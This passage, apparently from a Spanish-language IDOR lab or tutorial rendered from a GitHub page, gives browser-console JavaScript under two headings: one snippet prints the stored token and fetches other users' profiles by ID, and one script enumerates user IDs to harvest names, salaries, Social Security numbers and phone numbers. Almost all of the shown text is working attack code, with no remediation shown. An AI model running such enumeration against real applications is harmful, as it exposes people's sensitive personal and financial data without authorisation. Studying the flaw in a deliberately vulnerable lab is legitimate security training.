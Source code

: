 #### **Método 2: Manipulación Directa en DevTools**
```javascript
// Abrir DevTools → Console y ejecutar:

// 1. Verificar tu token actual
console.log('Mi token:', localStorage.getItem('token'));

// 2. Acceder a perfiles de otros usuarios
for (let i = 1; i <= 4; i++) {
  api.getUserById(i).then(user => {
    console.log(`Usuario ${i}:`, {
      name: user.profile?.fullName,
      salary: user.profile?.salary,
      ssn: user.profile?.ssn,
      department: user.profile?.department
    });
  }).catch(err => console.log(`Error usuario ${i}:`, err.message));
}
```

#### **Método 3: Script Automático de Enumeración**
```javascript
// Script para enumerar todos los usuarios sistemáticamente
const enumerateUsers = async () => {
  const discoveredUsers = [];
  
  for (let i = 1; i <= 10; i++) {
    try {
      const user = await api.getUserById(i);
      discoveredUsers.push({
        id: user.id,
        username: user.username,
        fullName: user.profile?.fullName,
        salary: user.profile?.salary,
        ssn: user.profile?.ssn,
        phone: user.profile?.phone,
        department: user.profile?.department
      });
      console.log(`✅ Usuario ${i} encontrado:`, user.username);
    } catch (error) {
      console.log(`❌ Usuario ${i} no existe`);
    }
  }
  
  console.table(discoveredUsers);
  return discoveredUsers;
};

// Ejecutar enumeración
enumerateUsers();
```
